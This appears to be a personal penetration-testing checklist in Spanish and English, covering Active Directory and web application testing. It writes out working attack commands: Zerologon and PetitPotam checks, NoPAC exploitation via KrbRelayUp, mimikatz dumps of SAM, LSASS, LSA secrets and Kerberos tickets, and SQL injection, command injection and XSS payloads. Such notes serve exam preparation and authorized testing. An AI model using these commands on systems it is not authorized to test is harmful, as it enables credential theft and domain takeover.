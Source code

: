 - [ ]  Known DC vulnerabilities:
    - [ ]  Zerologon ([exploit](https://github.com/risksense/zerologon)) - Solo DC. 
		```bash
		#  Vulnerable? nmap
		nmap --script smb-vuln-zerologon -p445 $target
		# Vulnerable? zerologon_tester
		python3 zerologon_tester.py DC_NAME DC_IP
		```
    - [ ]  PetitPotam
		```bash
		# No creo que sea muy útil en la práctica, ya que es un ataque tipo MITM, $target puede ser cualqueir objetivo
		python3 PetitPotam.py -u '' -p '' -d '' ATTACKER_IP TARGET_IP
		# Es vulnerable si recibimos respuesta al ponernos en escucha
		sudo responder -I tun0
		```
    - [ ]  NoPAC (once you have a user's creds) - Solo DC ([exploit]( https://github.com/Dec0ne/KrbRelayUp))
		```bash
		# Ataque lanzado por cualquier usuario con acceso al dominio
		# Comprobar si es vulnerable
		git clone https://github.com/Ridter/CheckNoPAC
		python3 checknopac.py -u USER -p PASSWORD -d DOMAIN -dc-ip IP
		# Explotación
		git clone https://github.com/Dec0ne/KrbRelayUp
		python3 KrbRelayUp.py -d domain.local -u lowprivuser -p Pass123! -dc-ip 10.10.10.10

		
		```

- [ ]  Kerberoastable accounts
- [ ]  AS-REP Roastable accounts
- [ ]  Find computers where Domain Users can RDP
- [ ]  Find computers where Domain Users are Local Admin
- [ ]  Shortest Path to Domain Admins (esp. from Owned Principals)
- [ ]  Write-permissions on any critical accounts?
- [ ]  Enumerate:
    - [ ]  Users (interesting permissions)
    - [ ]  Groups (memberships)
    - [ ]  Services (which hosts? users w/ SPNs?)
    - [ ]  Computers (which ones have useful sessions?)
## Directorio activo
- Enumeración con acceso al dominio. Equipos, usuarios, dominio (`powerview`)
	```powershell
	# Dominio
	 Get-Domain | select -ExpandProperty name
	# Equipos y dirección ip para pegar a /etc/hosts
	 Get-DomainComputer | select -ExpandProperty name > equipos.txt
	foreach ($equipo in (Get-Content .\equipos.txt)) {$IP = Resolve-DnsName $equipo | select -ExpandProperty ipaddress; echo "$ip $equipo" } 
	# Usuarios del dominio
	Get-DomainUser | select -ExpandProperty sAMAccountName	
	# Recursos compartidos
	foreach ($equipo in (Get-Content .\equipos.txt)) {net view \\$equipo}
	```
- [[Miscelaneo#ASREPRoasting| Asreproasting]]: Cuentas sin preautenticación kerberos. Podemos obtener el hash de usuarios asreproasteables e intentar crackearlos. 
- [[Kerberoasting| Cuentas kerberoasteables]] : Cualquier usuario autenticado puede solicitar un TGS de una cuenta con SPN e intentar crackearlo con hashcat. Si se consigue 
- Probar null session en smb
	```
	smbclient -N -U "" -L \\$target
	```
- Puertos internos expuestos que no se ven desde fuera (`netstat.exe -at`)
- [[Privesc Windows|Escalar privilegios]] y tratar de encontrar más información (`whoami /priv`, `winpeas`, `findstr`...)
- Recopilación información con mimikatz 
	```powershell
	# SAM ... token::elevate? (pth y crack)
	.\mimikatz.exe privilege::debug lsadump::sam exit *> dumpSAM.txt
	# LSASS (pth, ovth, silver ticket,info en texto plano)
	.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit *> dumpLSASS.txt
	# Secrets (info adicional)
	.\mimikatz.exe privilege::debug lsadump::lsa /patch exit *> secrets_lsa.txt
	# ekeys (opth)
	.\mimikatz.exe privilege::debug sekurlsa::ekeys exit *> ekeys.txt
	# Extraer tickets (ptt)
	.\mimikatz.exe privilege::debug sekurlsa::tickets /export exit
	```
- Con la información probar pth, ptt, opth, crackear, buscar contraseñas en texto plano
- Con las credenciales obtenidas intentar conexión vía `rdp`, `winrm`, `impacket-wmiexec`, `impacket-psexec`. Probar también con `--local-auth`
- Información útil con bloodhound

## Webpage

- [ ]  Check `searchsploit` for vulns in server software, web stack
- [ ]  Check `/robots.txt` and `/sitemap.xml` for directories/files of interest
- [ ]  Inspect HTML comments/source for juicy info
    - [ ]  secrets/passwords
    - [ ]  directories of interest
    - [ ]  software libraries in use
- [ ]  Inspect SSL certs for DNS subdomains and emails
- [ ]  Watch out for [Apache virtual hosts](https://httpd.apache.org/docs/current/vhosts/%7CApache%20virtual%20hosts.md) (and nginx/IIS/etc. equivalents)! Set `/etc/hosts` with ALL (sub)domains for the target IP.
- [ ]  Attempt login with default/common creds
- [ ]  Attempt login auth bypass (SQLi): `' or 1=1 -- #`
- [ ]  Test for [SQL/NoSQL Injection](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.3%20SQL%20Injection) using "bad" chars: `'")}$%%;\`
- [ ]  Test for [Command Injection](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.6%20Command%20Injection)
    - [ ]  separator characters: `; | & || &&`
    - [ ]  quoted context escape: `" '`
    - [ ]  UNIX subshells: `$(cmd)`, `>(cmd)` and backticks
- [ ]  Test for [Path Traversal](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.4%20Directory%20Traversal) in URL query and (arbitrary?) file upload
- [ ]  Test for [LFI/RFI](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.5%20LFI/RFI), especially in URL query params
- [ ]  Test for [XSS](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.7%20Cross-Site%20Scripting%20\(XSS\)) on all input fields, URL query params, and HTTP Headers:
    - [ ]  Check what remains after filtering applied on input: `'';!--"<XSS>=&{()}`
    - [ ]  Try variations of `<script>alert(1)</script>`
---
- Comprobar whatweb y wappalizer + búsqueda de vulnerabilidades en el software, web stack vía searchsploit y navegador
- Buscar en directorio como `/robots.txt` , `/sitemap.xml`
- Intentar utilizar [credenciales por defecto](https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv)
- Hacer [[Ffuf| fuzzing]] de directorios y vhosts si procede
- Intentar en todos los campos que proceda inyectar comandos (sqli, xss,)
- Cambiar parámetros get (estar atento a cualquier cambio)
- Intentar [path traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md). [Lista](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)
- Intentar LFI/RFI, especialmente en parámetros url

